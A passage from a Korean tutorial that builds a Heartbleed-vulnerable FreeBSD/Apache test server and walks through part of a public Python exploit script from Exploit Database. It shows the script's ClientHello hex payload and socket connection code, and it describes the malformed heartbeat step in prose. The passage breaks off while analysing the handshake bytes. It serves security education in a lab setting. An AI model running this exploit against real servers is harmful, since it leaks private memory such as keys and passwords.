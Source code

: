 FreeBSD 10.0은 번들 패키지로 설치된 OpenSSL의 버전이 1.0.1e로 하트블리드에 취약한 대표적인 OS버전이다. 이 OS에 테스트 환경을 위해 아파치 HTTP 웹서버를 설치하고 개인키와 인증서를 적용하여 HTTPS/SSL이 적용된 웹 서버 환경을 구현한다. 이런 간단한 작업만으로 테스트를 위한 서버 환경을 구현할 수 있다. 필요에 따라서 사용하지 않는 컴퓨터, 또는 보조로 사용하는 하드디스크에 파티션을 나누어 구축할 수도 있고 간편하게는 VirtualBox나 VMware Workstation과 같은 소프트웨어를 이용하여 가상 머신으로 구현할 수 있다. 테스트 환경은 VirtualBox로 구현하고 네트워크 세팅을 ‘Bridged Adapter’로 설정하여 동일 네트워크의 다른 단말기에서 GuestOS에 접근이 가능하도록 하였다. 가상머신을 ‘Bridged Adapter’로 설정하고 GuestOS에서 네트워크 인터페이스 설정을 DHCP로 하면 가상머신을 구동하고 있는 HostOS 단말기가 연결되어있는 게이트웨이에서 IP를 할당받아 같은 네트워크에서 접근이 용이하다.

테스트 서버의 세팅이 완료되면 공격 스크립트를 준비한다. 마침 테스트하기 위해 좋은 스크립트가 Exploit Database(exploit-db.com)에 준비되어있다. Exploit Database는 취약점 테스트, 연구, 보안을 개선하기 위하여 여러 자료를 제공하며 테스트를 위한 취약점 공격 코드 또한 제공되고 있다. 마찬가지로 하트블리드에 관련된 여러 공격 코드가 게시되어 있다. 그중 Jared Stafford가 게시한 ‘OpenSSL TLS Heartbeat Extension - Memory Disclosure’라는 이름의 공격 코드를 이용한다.<sup id="a2">[2](#f2)</sup> 이 코드는 파이썬(Python)으로 작성되었다. 파라미터로 공격 대상 서버의 호스트 주소를 넘겨주면 서버에 접속을 연결하고, Handshake 메시지를 보낸다. 만약 서버에서 Handshake에 정상적으로 응답할 경우, 공격을 위하여 Payload 길이가 변조된 하트비트를 전송하여 공격한다. 이후 응답 메시지의 헥사 덤프를 화면에 출력한다. 이 응답 메시지는 공격이 성공할 경우, 서버 메모리 데이터 또한 포함한다.

```python
hello = h2bin('''
16 03 02 00 dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc 0c bc 2b 92
a8 48 97 cf bd 39 04 cc 16 0a 85 03
90 9f 77 04 33 d4 de 00 00 66 c0 14
c0 0a c0 22 c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35 00 84 c0 12
c0 08 c0 1c c0 1b 00 16 00 13 c0 0d
c0 03 00 0a c0 13 c0 09 c0 1f c0 1e
00 33 00 32 00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96 00 41 c0 11
c0 07 c0 0c c0 02 00 05 00 04 00 15
00 12 00 09 00 14 00 11 00 08 00 06
00 03 00 ff 01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34 00 32 00 0e
00 0d 00 19 00 0b 00 0c 00 18 00 09
00 0a 00 16 00 17 00 08 00 06 00 07
00 14 00 15 00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f 00 10 00 11
00 23 00 00 00 0f 00 01 01
''')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print 'Connecting...'
sys.stdout.flush()
s.connect((args[0], opts.port))
print 'Sending Client Hello...'
sys.stdout.flush()
s.send(hello)
```
파라미터로 임력받은 공격 호스트에 접속하고 임의로 작성된 헥사코드를 바이너리로 바꾸고 그것을 전송하여 Handshake를 하는 과정이다. hello라는 변수에 입력되어있는 값을 하나씩 분석해보도록 한다.

|       |                 |
| - | - |
| 16    | Handshake       |
| 03 02 | TLS version 1.1 |
| 00 dc | Length          |
